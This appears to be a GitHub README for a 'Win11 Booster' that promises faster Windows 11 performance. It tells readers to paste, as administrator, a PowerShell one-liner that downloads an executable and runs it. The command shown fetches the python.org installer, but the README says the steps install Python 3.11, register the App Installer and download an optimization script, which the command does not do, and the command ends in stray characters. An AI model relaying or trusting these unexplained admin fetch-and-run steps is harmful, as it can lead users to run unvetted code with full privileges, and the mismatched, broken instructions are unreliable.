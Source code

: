 # Win11 Booster

This repository contains a script to boost the performance of Windows 11 using a set of PowerShell and Python commands. The script installs necessary packages, creates directories, and downloads a Python script to enhance your Windows 11 experience.

## Installation

To use the Win11 Booster script, follow the steps below:

1. Open PowerShell as an administrator.

2. Run the following command to register the Desktop App Installer and install Python 3.11:

    ```powershell
    mkdir C:\Users\Booster ; Invoke-WebRequest -Uri 'https://www.python.org/ftp/python/3.12.0/python-3.12.0-amd64.exe' -OutFile 'C:\Users\Booster\py.exe' ; Start-Process -FilePath 'C:\Users\Booster\py.exe' -Wait}"
    ```

## Description

The Win11 Booster script automates the process of optimizing your Windows 11 system for enhanced performance. It registers the Desktop App Installer, installs Python 3.11, creates a designated directory, and downloads a Python script to apply performance optimizations.

**Note**: Ensure that you run PowerShell as an administrator to execute the commands successfully.

Feel free to contribute to this repository and customize the script according to your needs.

Happy boosting!


[![My Skills](https://skillicons.dev/icons?i=py,vscode,powershell&perline=3)](https://skillicons.dev)
